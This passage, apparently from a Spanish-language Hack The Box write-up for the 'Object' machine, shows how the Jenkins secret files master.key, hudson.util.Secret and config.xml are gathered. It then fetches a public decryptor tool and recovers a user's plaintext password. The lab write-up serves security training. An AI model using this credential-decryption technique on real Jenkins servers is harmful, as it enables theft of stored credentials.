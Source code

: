 No olvidemos que hay quitar el salto de linea para que no de problemas.

```bash
❯ cat master.key| tr -d '\n' | sponge master.key
```

Ahora nos copiaremos el `hudson` pero debido a que este no es legible primero lo vamos a convertir a `base64`.

![](/assets/images/HTB/htb-writeup-Object/obje24.PNG)

Una vez que tenemos los 3 archivos.

```bash
❯ ls
 config.xml   hudson.util.Secret   master.key
```

Vamos a utilizar la herramienta del repositorio de `hoto`:

* [jenkins-credentials-decryptor](https://github.com/hoto/jenkins-credentials-decryptor)

Solo debes ejecutar este comando para tenerla.

```bash
curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor

chmod +x jenkins-credentials-decryptor
```

Ejecutamos con los parametros correspondientes, indicando cada archivo y obtenemos la contraseña en texto claro.

```bash
❯ ./jenkins-credentials-decryptor -c config.xml -m master.key -s hudson.util.Secret
[
  {
    "id": "320a60b9-1e5c-4399-8afe-44466c9cde9e",
    "password": "c1cdfun_d2434\u0003\u0003\u0003",
    "username": "oliver"
  }
]
```
